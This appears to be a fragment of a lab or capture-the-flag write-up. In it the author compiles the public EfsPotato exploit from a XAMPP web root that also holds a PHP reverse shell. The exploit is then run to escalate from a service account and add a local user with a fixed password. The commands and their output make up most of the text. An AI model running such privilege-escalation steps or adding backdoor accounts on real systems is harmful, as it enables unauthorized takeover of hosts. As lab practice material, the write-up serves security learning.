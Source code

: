 <br>
<br>

<img width="1126" height="80" alt="image" src="https://github.com/user-attachments/assets/de68918a-5748-4732-84b8-e43311de02ed" />

<br>
<br>


<p>Potato</p>


https://github.com/zcgonvh/EfsPotato
Downloaded EfsPotato.cs


C:\xampp\htdocs>C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe Potato.cs
Microsoft (R) Visual C# Compiler version 4.8.3761.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versio
...
C:\xampp\htdocs>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\xampp\htdocs

08/22/2025  08:40 PM    <DIR>          .
08/22/2025  08:40 PM    <DIR>          ..
08/17/2023  05:09 AM             5,024 6xK3dSBYKcSV-LCoeQqfX1RYOo3qNa7lqDY.woff2
07/16/2023  04:29 PM           213,642 background-image.jpg
07/11/2023  05:11 PM             9,711 background-image2.jpg
08/22/2025  08:28 PM               469 e.cs
08/22/2025  08:14 PM               469 EfsPotato.cs
08/17/2023  05:11 AM             3,554 font.css
08/29/2023  09:55 AM             3,591 index.php
08/22/2025  08:04 PM             9,407 php_reverse_shell.php
08/22/2025  08:39 PM            25,441 Potato.cs
08/22/2025  08:40 PM            17,920 Potato.exe
08/22/2025  08:04 PM    <DIR>          uploads
              10 File(s)        289,228 bytes
               3 Dir(s)  13,590,577,152 bytes free
...

C:\xampp\htdocs>Potato.exe "net user lili pass123& /add"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=c68df0)
[+] Get Token: 844
[!] process with pid: 3680 created.
==============================
The command completed successfully.
